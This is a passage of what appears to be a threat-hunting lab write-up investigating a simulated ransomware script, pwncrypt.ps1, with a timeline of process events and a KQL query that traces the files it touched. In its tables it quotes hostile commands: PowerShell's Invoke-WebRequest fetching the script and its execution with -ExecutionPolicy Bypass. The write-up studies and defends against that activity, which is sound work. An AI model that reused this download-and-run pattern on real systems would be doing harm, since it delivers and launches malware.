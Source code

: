 ### 🧩 Key Malicious Sequence

| Time (UTC)  | Process Chain            | Command Summary                                              |
|-------------|---------------------------|--------------------------------------------------------------|
| 13:20:14    | `cmd.exe` → `powershell.exe` | `Invoke-WebRequest` downloads `pwncrypt.ps1` from GitHub     |
| 13:20:17    | `powershell.exe`         | `-ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1` |

This sequence confirms intentional delivery and execution of the ransomware using living-off-the-land binaries (LOLBins). The use of `Invoke-WebRequest` and PowerShell in this manner is a red flag in most environments.

---

## 🚨 Step 7: Prioritize Key Events for Incident Response

| Time       | Process           | Detail                                                 | Meaning                                |
|------------|-------------------|---------------------------------------------------------|----------------------------------------|
| 13:20:14   | powershell.exe     | `Invoke-WebRequest -Uri https://...pwncrypt.ps1`        | 🚨 Downloader invoked                   |
| 13:20:17   | powershell.exe     | `-ExecutionPolicy Bypass -File pwncrypt.ps1`            | 🚨 Payload executed                     |
| 13:20:13   | powershell.exe     | `-ExecutionPolicy Unrestricted -File script0.ps1`       | ⚠️ Possibly earlier test/staging        |

🧠 **Insight:** These three command lines represent the critical chain of infection — from download to encryption. They also serve as detection opportunities.

---

## 📂 Step 8: Trace File Impact from pwncrypt.ps1

```kql
let VMName = "pvr-hunting2";
DeviceFileEvents
| where DeviceName == VMName
| where InitiatingProcessCommandLine has "pwncrypt.ps1"
| project Timestamp, ActionType, FileName, FolderPath, InitiatingProcessCommandLine, InitiatingProcessFileName
| order by Timestamp desc
```

This query links all file modifications back to the ransomware script. By keying in on `InitiatingProcessCommandLine`, I tracked the spread and encryption events triggered by `pwncrypt.ps1`.

![File Impact Traced from pwncrypt.ps1](./images/4.png)

